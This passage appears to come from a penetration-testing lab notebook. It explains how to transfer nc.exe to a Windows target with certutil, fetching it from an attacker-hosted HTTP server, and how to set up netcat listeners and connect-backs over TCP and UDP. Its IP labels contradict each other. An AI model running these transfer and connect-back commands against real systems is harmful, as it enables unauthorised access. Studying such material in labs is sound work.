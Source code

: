 Setup a listener:

* Transfer `nc.exe` to the windows target
* Attacker Machine IP: `10.10.16.2`
* Target Machine IP: `10.0.20.107`

```bash
# Attacker machine (10.0.20.107)
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.16.2 1234
nc.exe -nvu 10.10.16.2 1234

# A connection is received on the Attacker machine
```
